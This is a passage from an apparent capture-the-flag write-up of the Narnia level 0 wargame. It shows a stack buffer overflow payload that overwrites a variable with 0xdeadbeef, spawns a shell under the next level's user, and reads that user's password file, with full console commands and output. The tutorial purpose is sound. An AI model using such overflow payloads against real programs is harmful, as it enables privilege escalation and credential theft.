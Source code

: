         return 0;
}
{{< / highlight >}}

Lines 8 and 9 tell us what we need to do. So knowing how variable allocation
on the stack works, we can exploit the setup on lines 5 and 6. `buf` is a 
fixed size and is allocated *after* `val`. Therefore it sits above `val` on
the stack. As there is no [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
we should be able to write over the end of `buf` and overwrite what is in memory
at `val`'s location.

So let's try it

{{< highlight console >}}
narnia0@melinda:/narnia$ python -c "print 'C'*50" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCCCCC
val: 0x43434343
WAY OFF!!!!
{{< / highlight >}}

Right, we can confirm that we are able to change the value of `val`. Let's
tread a bit more carefully and try to see if we can do it more accurately

{{< highlight console >}}
narnia0@melinda:/narnia$ python -c "print 'C'*20 + 'BBBB'" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCBBBB
val: 0x42424242
WAY OFF!!!!
{{< / highlight >}}

So there is no space between `val` and `buf`, therefore 20 characters plus a 
further 4 is enough to change val. Let's write in the correct value, reversed of
course because of the endian notation

{{< highlight console >}}
narnia0@melinda:/narnia$ python -c "print 'C'*20 + '\xef\xbe\xad\xde'" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
val: 0xdeadbeef
narnia0@melinda:/narnia$
{{< / highlight >}}

We did it.... but wait, where's the shell? It's closed, that's where it is. We
need to keep it open. The trick is to append the `cat` command to the input

{{< highlight console >}}
narnia0@melinda:/narnia$ (python -c "print 'C'*20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
val: 0xdeadbeef
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
[password]
{{< / highlight >}}
